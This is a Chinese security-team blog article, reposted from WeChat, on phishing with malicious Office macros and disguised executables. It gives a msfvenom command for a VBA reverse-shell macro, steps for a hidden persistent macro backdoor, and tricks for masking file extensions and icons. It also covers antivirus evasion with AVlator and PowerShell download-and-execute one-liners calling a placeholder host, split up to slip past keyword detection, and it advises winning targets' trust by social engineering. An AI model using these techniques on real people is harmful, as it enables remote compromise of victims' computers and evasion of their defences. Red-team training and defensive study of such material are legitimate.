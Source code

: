 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lhg71lVHfp9PY1m8sYXA_A)

山东新潮信息

专业｜专注｜卓越｜安全

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUpsZTBicljB6AiaiaSkIcLx8v80iaYZBU8oUnmaTESRoo6BiaAr1LRWE5s2SpQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUpsK9kofLrsia19FQ31MhOOpicwz2r6OVJ3Astfmiakc3hbX4LOTibibyQ3rIA/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUpsQjXZJyUEzibtXoddicWlL66rUh5U5gSMX9LsGjibN2ice26qBicpcf8icbFg/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUpsCXU9mLmCXRSosjZu8VzrWWmLIvms3UcJ15x0nKFwbHYLdaNJBmOzkw/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUpsBMFcv2ATPJVFu1lWDibIohTfaAvWDoe17BHTtc4bNoCUz1kqZPZjvCg/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUps55dSGRleicXZH50FAWTnHHXOria9ia9ZOiaeMPpvqEtJ0STUxdt5qT87LQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWj5ABJIR6a2b4IHqAscUpspqnZQo5UJePTEjicOdy0VftbkNicKZpBxGKLjSVic6GgkhRYeKUeiclwpg/640?wx_fmt=png)

**声明：****Tide 安全团队原创文章，转载请声明出处！****文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

* 本文原创作者：诺言 @TideSec，转载请申明出处。

前言
==

今年参加了几次护网比赛，其它队伍依靠社工结合文件钓鱼得了不少分，自己之前并没有相关知识的积累，因此在这个方面吃了一些亏。

office 宏攻击
==========

宏是微软公司为其 OFFICE 软件包设计的一个特殊功能，有着独特的文件后缀名，如：xlsm，docm，pptm 等。

1、msf 生成 payload
----------------

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip地址 LPORT=端口 -f vba -o nouyan.vba


```

-f 指定生成 vba 宏语言的攻击 payload 首先新建一个支持文件宏的 office 文件，以. docm 进行演示。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycRKv6oaOymRFt9AjrtD93AWOUYw2rQWpGiaEibhNUIhK3riaCVYOOuat7w/640?wx_fmt=jpeg)首先选择文件 - 选项 - 自定义功能区 - 开发工具。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycqdggibLialjkI8gBvdOFoK5oG3OicKYgraV0TbQ2Cy49jPW04pd1Fp8eQ/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycnJebVRmxXOyTJ1g8D6Qhylcc5ZicVY070q7LBdJvxDMfkUFEWWn2ZFw/640?wx_fmt=jpeg)点击宏按钮，创建一个新的文件宏。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycjDC4x0WXeB68SDyibsAZibT9KN79OZh1CykoX3Pk14lFaK2mhib7MfC0g/640?wx_fmt=jpeg)把 msf 生成的宏代码复制到代码框中。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycySlldMX7riapMr0O0yemjSbMT6kjZxUk2ShIALplycwJrEokJL2OuSA/640?wx_fmt=jpeg)保存文件，一个 msf 的反弹文件制作完成。msf 开启监听。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycO4BSKebTveV0OuWbKzGXAEdhJZw9jwiakunVXEbHGZbwN1rlnFb5YwQ/640?wx_fmt=jpeg)打开生成的 1.docm 文档。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycxYPXqm1Vpib4UBIY9fSlicveYjS6el3R8fAOnoC6bxgrOLWClCyJGe8A/640?wx_fmt=jpeg)出现安全警告，提升宏被禁用，点击启用内容。成功上线。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycw0PVezm9KMFBs5wTl2tnoDsBaRCaa08OQBFJpLwRT21NFFNN6qL98A/640?wx_fmt=jpeg)

二、cs 生成 payload
---------------

cs 也支持生成 office 宏代码。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycgbmyegIYA6dN0ickDc7lzvyuUESszS3WFgqj36YDt7x0uM2GypuEB8w/640?wx_fmt=jpeg)选择一个监听器，直接复制代码到宏代码框中。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycgkic2dm4o9NUSk1oZd2Mr40nelBeSr0aG2DtzPtu9OKKtMeibUnziciaVA/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycXC919qficAibhmrOZ49KNMn3zzd65UyWeI7U1oMBGfC5jvbghiaOmTw9A/640?wx_fmt=jpeg)上线成功。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycGwa1BPkeia7zlNQ0NHGu14EnPEUB9jpJmiaUtDvv7ibKSKBrYzrBdgb2A/640?wx_fmt=jpeg)

实战
--

类似 office 宏还有一些其它利用方式，如 DOCX 文档远程模板注入执行宏，还可以通过 shellcode 进行免杀处理。在实战中，首先尽可能社工目标的各种信息，取得对方信任，根据钓鱼的目标，修改文档的名字，通过邮箱进行发送，如 xx 公司采购说明。

office 宏钓鱼存在几大不适用性：

1、对方电脑未使用 office。

2、office 默认禁用宏，打开文件会进行提示。

3、独特的宏文件后缀，docm，xlsm 等，容易引起他人怀疑。

4、免杀性要求较高。

### 全局宏建立持久性后门

office 宏除了用于钓鱼，还可以用来建立隐蔽的持久性后门。新建一个宏，位置要选择所有活动模版和文档。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycDr9yTFsrZnIEtibodp8EydGca5Rpy6cMctZLwcnPEibblZDqC0tr5bjA/640?wx_fmt=jpeg)在 ThisDocument 中写入宏代码，进行保存。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycHrgIUMkcqe2wjgjVnibI7VpmmKTnaicTlmL3MJjAMCBjRcXLKkl5tCVg/640?wx_fmt=jpeg)成功建立了一个隐藏持久性后门，打开任意文档都可以触发宏代码，且杀软没有任何反应。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWyc1SKbpJ7iaib8ZcxNzsjZp8NNQnb8fKRQXA65DGrqqM5Wes0rXkdicFrGg/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycfQzKjqU2ibmoIU6Km1ryriaB8s1HyPCrHukPRaD6zJvur05dYLiab67dQ/640?wx_fmt=jpeg)

可执行 exe 文件  

msf 和 cs 都可以生成反弹木马，通过鼠标点击的方式进行触发。exe 木马用于钓鱼，主要解决的问题有三个：

1 、后缀名隐藏

2、文件图标更换

3、文件免杀

后缀名隐藏  

https://null-byte.wonderhowto.com/how-to/hide-virus-inside-fake-picture-0168183/

经典的 “.jpg.exe”  

默认情况下，Windows 隐藏已知的文件扩展名。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWyc0J60qzMiaZsXZiat2Jl3icVoewG7IUFlX7A4XjFxzh8oZ8sqe29ZqtfuA/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycoCPR2PAYA5niaSavcSElH2TOdWlOuIaTWch70oWuSsURohynXdr0hiaA/640?wx_fmt=jpeg)

使用. scr 扩展名  

scr 等同于 exe 后缀名。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycOXZLFRI9b6K3hCTxpfYu58vbCJef7tSL9yQ59FVfNoOBibLEZjpy0zw/640?wx_fmt=jpeg)

Unitrix 反转后缀  

更改文件名为：重要资料 xgpj.scr![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycbZmr440wPiakaw5GBMibEsLrzMHvKGhB1dWQbyrWjL5tyOibsgZSYuERA/640?wx_fmt=jpeg) 光标移动到 g 之前选择 RLO 反转。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycfI6z8aNohtuhrFDCsIvnHllTWiajWbibyVgWoekia4cwA8NdIYdN80T8w/640?wx_fmt=jpeg)成功隐藏后缀。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycqN482UHtM1dsB5tOyKQMMV0f5Nibw7Qm81OzD8Qg0RTvXAUNr9AlTeg/640?wx_fmt=jpeg)经过测试，使用. scr 扩展名和 Unitrix 反转后缀会被 360 直接报毒。

文件图标更换  

使用 Restorator 对 exe 文件进行图标更改。把木马文件和想要替换的目标 exe 都拖入到软件中。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWyc9Y3UXe7IhGiaIF91X7b1fyfO5zocmibs5QEJjLTTbkf6jiby29gFwu1uQ/640?wx_fmt=jpeg)拖拽 360 图标到 aaa.exe 中，保存文件，成功替换图标。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycCib3sF1Ov2o54feW79MzDnDk1vmVw0Co8I9qsNdUk7spnSeW8rdMdOQ/640?wx_fmt=jpeg)

文件免杀  

介绍两种免杀姿势。

AVlator 免杀  

下载传送门一个后门生成器实用程序，它使用加密和注入技术来绕过杀软检测，并且自带了 RTLO 和更改图标功能。使用 AES 加密来加密给定的 shellcode 生成包含加密有效负载的可执行文件使用各种注入技术将 shellcode 解密并注入目标系统![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycUckj9er8P3WPenLHU9Ne7jI7iawXe9DCQNOd3iaQwgjyQwtxZxudHOSg/640?wx_fmt=jpeg)共有三个表单：分别存放用于加密 shellcode 的加密密钥的文本，AES 加密的 IV 的文本和 shellcode 的文本。程序左方给出了在 msf 框架下的利用步骤。本次使用 cs 进行演示。

1、生成 c# 的 payload![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycUMBfpicE22ibntniaOl0SibmsqQsekLTqNjtoRicnvBKASdZic66uUsoVeWA/640?wx_fmt=jpeg)2、保留 16 进制，使用 notepad++ 去除空格![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycyAr9giaswqLUlUyryfOhyciclvBerQXlXUCcpH38vzOjMBPaCiaVFVvKA/640?wx_fmt=jpeg) 3、复制到 payload 框中进行加密![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycIt0mIKPjXDeLEyUQBVtrRnb8YVq4z8r8EhndMVOzLvQVpSwCZSuVEw/640?wx_fmt=jpeg) 4、可以选择反转后缀（会被某些杀毒识别为恶意软件），替换图标，选择注入技术，成功生成文件。可以绕过大多数的杀软。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWyc1DJS00vNBAmAE4n6icbPEkWibMs3lpJC88KH3Qqf2W5WjgY0UJZMsKWQ/640?wx_fmt=jpeg)本机完美绕过 360 动静态查杀。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycefEsNju9Z5m4nlaK3yGibHeGcJKfkprPUaUYf7KeAcuXEa3qTMEibGjA/640?wx_fmt=jpeg)

powershell 免杀  

当前各大杀软对 powershell 的免杀能力都不强。

免杀思路：首先找到免杀的 powershell payload，通过其它语言系统命令执行函数，调用 powershell，最后打包成 exe。使用 cs 自动生成的 payload。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWyc1lAWeUgRR4DR7GSs8pIhWK1526ZvnjLRMLGoagLicCg1ZPibtqyH47JA/640?wx_fmt=jpeg)

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/'))"


```

接下来的目的是对执行的 powershell 语句进行免杀处理。很多思路和 webshell 的免杀相同，绕过关键字检测，需要自己动手去尝试，下面介绍一种 powershell 免杀。

#### 关键字拆分免杀

拆分前：

```
powershell.exe "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x/'))"


```

经过测试杀软检测 downloadstring 字符串，进行拆分。拆分后：

```
powershell.exe "$a1='IEX ((new-object net.webclient).downl';$a2='oadstring(''http://x.x.x.x''))';$a3="$a1,$a2";IEX(-join $a3)"


```

成功绕过杀软。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWychcEAbwoKPJ34R5hvzOUI0jXXOKX1mCenQXCJm9ySB1aDcnwhLKBLqA/640?wx_fmt=jpeg)对于对其它关键字的检测，都可以通过这种方法绕过。使用 c 语言的 system 函数去执行 powershell。

编译成 exe 文件，180kb 大小。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycVeFaQ3gMFuBIbS5Z2m99jZCwqBJEFdJPIOH4XbglcpFlea05DkaFAQ/640?wx_fmt=jpeg)大部分的杀软都不会报毒。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWyczZcvawGibUDhXXGlXwFdWciaxKdL0ichmhRK4dk3YXvGedChL0gu0wTjg/640?wx_fmt=jpeg)运行后成功上线，会留下一个黑窗口。![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RU9P1X7HWk4p5NEqnHcTWycaJjkwBWSDIBeEOKQRlU1t3RylSZ2DiaXKf7hkdUcdicjibIcD1icIChrBw/640?wx_fmt=jpeg)可以使用 -w hidden 进行隐藏执行，但 hidden 会报毒，可以尝试下拆分 hidden 进行绕过。powershell 能做的事情很多，比如免杀提权，更多的用法自行尝试。

总结  

不管是宏文件还是钓鱼木马，一次成功的文件钓鱼离不开社会工程学，如何快速取得他人信任，才是难上之难。未解决的问题：绕过杀软隐藏真实文件后缀，如果大佬有思路的话可以联系我～

E

N

D

![图片](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV7JtqOjb8GicJScj73ficeZaQ2blrEIWwUhB9jUSIl6iaJIdhxDjDXJ8kr3zgbibHsibiaiaw8UzQ2VJGtA/640?wx_fmt=png)

guān

**关**

zhù

**注**

wǒ

**我**

men

**们**

**Tide 安全团队正式成立于 2019 年 1 月，是新潮信息旗下以互联网攻防技术研究为目标的安全团队，目前聚集了十多位专业的安全攻防技术研究人员，专注于网络攻防、Web 安全、移动终端、安全开发、IoT/ 物联网 / 工控安全等方向。**

**想了解更多 Tide 安全团队，请关注团队官网: http://www.TideSec.com 或长按二维码关注公众号：**

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RV7JtqOjb8GicJScj73ficeZa8kiav5ffmKNUTknJ7Ic4QhaIlSobGowPZoGby04nK85kL95XZd5OUcQ/640?wx_fmt=png)